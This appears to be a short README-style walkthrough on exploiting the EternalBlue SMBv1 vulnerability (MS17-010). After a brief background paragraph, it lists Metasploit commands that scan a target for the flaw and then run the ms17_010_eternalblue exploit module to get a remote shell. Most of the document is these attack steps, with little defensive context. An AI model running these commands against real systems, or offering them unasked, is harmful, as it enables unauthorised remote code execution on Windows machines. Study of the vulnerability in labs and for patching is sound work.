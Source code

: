 # Eternal Blue (MS17-010)

is MS17-010 vulnerability in the SMBv1 protocol also known as EternalBlue. it was born out of a cache of leaked files from a group known as the "Equation Group", and was considered to contain a number of 0 day exploits , ranging from linux exploits to affecting a wide array of windows operating system versions

* Determine if the target is vulnerable

1- Using metaspolit auxiliary

> use auxiliary/scanner/smb/smb_ms17_010

> set RHOSTS 192.168.x.x

> run


![Screenshot 2023-04-16 224518](https://user-images.githubusercontent.com/73122852/232341214-fe42580d-cfd1-48cd-98be-739403999ce5.png)


* Exploit this vulnerability to get shell

> use exploit/windows/smb/ms17_010_eternalblue

> set RHOSTS 192.168.x.x

> exploit
